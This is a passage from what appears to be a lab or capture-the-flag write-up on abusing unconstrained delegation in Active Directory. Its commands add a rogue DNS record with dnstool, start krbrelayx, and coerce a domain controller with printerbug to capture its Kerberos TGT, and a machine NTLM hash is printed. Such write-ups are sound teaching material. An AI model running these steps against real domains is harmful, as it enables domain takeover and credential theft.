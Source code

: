 Converted the machine password to an NTLM hash using [this website](https://www.browserling.com/tools/ntlm-hash).

<img src="/assets/img/delegate/Untitled 4.png" alt="Untitled 4.png" style="width:800px;">

We can’t connect to the DUSK$ machine’s host and use [Rubeus](https://github.com/GhostPack/Rubeus) in monitor mode, but it is possible to do all this from our VM with [krbrelayx](https://github.com/dirkjanm/krbrelayx).

Created a DNS record and started krbrelayx in monitor mode.

```bash
python3 ~/Desktop/tools/krbrelayx/dnstool.py -u delegate.vl\\N.Thompson -p <REDACTED> -a add -t A -d 10.8.1.206 -r dusk.delegate.vl 10.10.88.142
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully

python3 ~/Desktop/tools/krbrelayx/krbrelayx.py -hashes :02CBC903FE8665E4FE2623E0DAA93CBD
[*] Servers started, waiting for connections
```

Forced the DC1$ machine account to authenticate to us.

```bash
python3 ~/Desktop/tools/krbrelayx/printerbug.py 'delegate.vl/dusk$'@10.10.88.142 dusk.delegate.vl -hashes :02CBC903FE8665E4FE2623E0DAA93CBD
```

We successfully captured a DC1$ forwardable TGT!

```bash
[*] Got ticket for DC1$@DELEGATE.VL [krbtgt@DELEGATE.VL]
[*] Saving ticket in DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
```
